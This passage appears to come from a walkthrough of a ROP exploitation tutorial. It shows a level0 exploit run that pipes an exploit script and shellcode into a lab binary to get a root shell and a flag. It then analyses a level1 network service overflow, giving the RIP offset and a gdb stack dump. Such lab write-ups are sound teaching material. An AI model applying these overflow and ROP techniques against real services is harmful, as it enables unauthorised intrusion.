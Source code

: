 Here it is in action:

```text
$ (./sploit.py; ./sc.py; cat) | ./level0
[+] ROP tutorial level0
[+] What's your name? [+] Bet you can't ROP me, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@!
whoami
root
cat flag
flag{challenge-completed}
```

So far so good!

### Level 1

Things get a bit hairy in this level. level1 listens on port 8888 for connections and prompts us for input. It's easy to overflow the handle_conn() function and gain control of RIP using the store command. In my case, I specified a file size of 500 bytes and sent an input file of 800 bytes. RIP gets overwritten at offset 572.  Here's what the stack looks like right before it returns to an invalid address: 

```
[----------------------------------registers-----------------------------------]
RAX: 0x26 ('&')
RBX: 0x0 
RCX: 0x7f33543e6620 (<__write_nocancel+7>:  cmp    rax,0xfffffffffffff001)
RDX: 0x26 ('&')
RSI: 0x4012d8 ("  XERXES wishes you\n      a NICE day.\n")
RDI: 0x4 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffd5f7c2028 ('A' <repeats 200 times>...)
RIP: 0x400f58 (<handle_conn+983>:   ret)
R8 : 0x4000 ('')
R9 : 0x7f33543589fa (<_IO_vfprintf_internal+22490>: cmp    BYTE PTR [rbp-0x4d8],0x0)
R10: 0x7ffd5f7c1c20 --> 0x0 
R11: 0x246 
R12: 0x400a00 (<_start>:    xor    ebp,ebp)
R13: 0x7ffd5f7c2140 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400f50 <handle_conn+975>:  jmp    0x400f57 <handle_conn+982>
   0x400f52 <handle_conn+977>:  jmp    0x400bda <handle_conn+89>
   0x400f57 <handle_conn+982>:  leave  
=> 0x400f58 <handle_conn+983>:  ret    
   0x400f59 <main>: push   rbp
   0x400f5a <main+1>:   mov    rbp,rsp
   0x400f5d <main+4>:   sub    rsp,0x30
   0x400f61 <main+8>:   mov    DWORD PTR [rbp-0x24],edi
[------------------------------------stack-------------------------------------]
0000| 0x7ffd5f7c2028 ('A' <repeats 200 times>...)
0008| 0x7ffd5f7c2030 ('A' <repeats 200 times>...)
0016| 0x7ffd5f7c2038 ('A' <repeats 200 times>...)
0024| 0x7ffd5f7c2040 ('A' <repeats 200 times>...)
0032| 0x7ffd5f7c2048 ('A' <repeats 196 times>, "\n")
0040| 0x7ffd5f7c2050 ('A' <repeats 188 times>, "\n")
0048| 0x7ffd5f7c2058 ('A' <repeats 180 times>, "\n")
0056| 0x7ffd5f7c2060 ('A' <repeats 172 times>, "\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400f58 in handle_conn ()
```
